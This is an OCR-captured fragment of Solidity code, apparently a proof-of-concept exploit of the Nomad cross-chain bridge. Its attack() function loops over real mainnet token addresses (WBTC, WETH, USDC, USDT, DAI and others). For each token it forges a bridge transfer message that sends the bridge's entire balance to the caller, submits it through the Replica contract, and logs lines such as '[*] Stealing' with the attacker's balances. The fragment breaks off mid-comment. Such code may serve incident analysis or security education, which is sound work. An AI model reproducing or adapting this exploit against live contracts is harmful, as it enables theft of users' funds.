 ```
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
```